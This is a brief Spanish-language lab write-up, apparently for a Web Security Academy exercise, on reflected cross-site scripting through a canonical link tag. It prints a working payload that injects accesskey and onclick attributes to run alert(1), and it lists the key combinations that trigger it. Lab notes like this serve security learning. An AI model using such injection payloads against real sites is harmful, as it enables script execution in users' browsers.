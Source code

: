 https://www.youtube.com/watch?v=9kwDn7IGkW0

`<link rel="canonical" href='https://0a8000fa03d48d1081ee2a34008400a5.web-security-academy.net/post?postId=2'/>`

Canonical link -> url preferida para ver ese contenido, url oficial.

```html
<link rel="canonical" href='https://0a990018033fe017813a43f600900025.web-security-academy.net/'/>

<link rel="canonical" href='https://0a990018033fe017813a43f600900025.web-security-academy.net/?'accesskey='x'onclick='alert(1)'/>
```

Como la acceskey es x , el elemento se ejecutará cuando se presione alguna de estas combinaciones de teclas en diferentes navegadores.

ALT+SHIFT+X
CTRL+ALT+X
Alt+X